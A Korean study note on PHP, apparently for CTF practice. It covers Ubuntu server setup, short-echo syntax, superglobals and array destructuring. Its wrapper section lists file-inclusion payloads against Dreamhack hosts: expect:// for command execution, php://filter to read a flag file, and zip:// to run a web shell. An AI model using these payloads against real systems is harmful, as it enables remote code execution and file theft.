 # 서버구축
아래는 리눅스(ubunut22.04-apt사용) 환경에서 php 서버를 구축하는 명령어들
```SH
sudo apt update & sudo apt upgrade 
sudo apt install apache2 php php-mysql mysql-server -y
sudo service apache2 start
```


# 기본 문법
`<?=`
`<?=` 는 PHP에서 사용되는 짧은 형태의 echo 문법
`<?=` 는 `<?php echo` 와 동일한 역할을 수행

```PHP
<?=`ls`?>	   /*<?php echo ls?> 랑 동일*/
```

문자열 사이에 .
문자열 사이에 .은 양쪽의 문자열을 이어주는 역할을 한다.

```PHP
$_GET['page'].'.php' /*쿼리로 받은 page 문자열에 .php 문자열을 붙임*/
```

# 슈퍼글로벌변수

```PHP
$_SESSION['username']
```


# PHP Wrapper

- expect://
system command를 실행시켜 줌
```
http://host3.dreamhack.games:18957/?file=expect://ls
```

- php://filter
encode / decode 옵션으로 서버 안에 존재하는 문서를 열람할 수 있음
```
http://host3.dreamhack.games:18957/?page=php://filter/page=convert.base64-encode/resource=/var/www/uploads/flag
```

```
http://host1.dreamhack.games:9636/?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag
```

base64로 인코딩하여 php 스크립트 자체를 가져오기
```
http://host3.dreamhack.games:14072/?page=php://filter/read=convert.base64-encode/resource=/var/www/uploads/flag
```


- zip://
zip파일의 압축을 풀고 해당파일을 실행(웹쉘 응용)
```
?page_num=zip://file.zip#web_shell.php
```


# Destucturing? Python 처럼 Swap 가능
- swap 관련 구현체 보다가 알게된건데, 파이썬처럼 `[$ret[$i], $ret[$p]] = [$ret[$p], $ret[$i]];` 이렇게 사용할 수 있음
``` php
function draw($n, $k) {
    $ret = range(1, $n);
    for ($i = 0; $i < $n - 1; $i++) {
        $p = rand($i, $n - 1);
        [$ret[$i], $ret[$p]] = [$ret[$p], $ret[$i]];
    }
    $ret = array_slice($ret, 0, $k);
    sort($ret);
    return $ret;
}
```

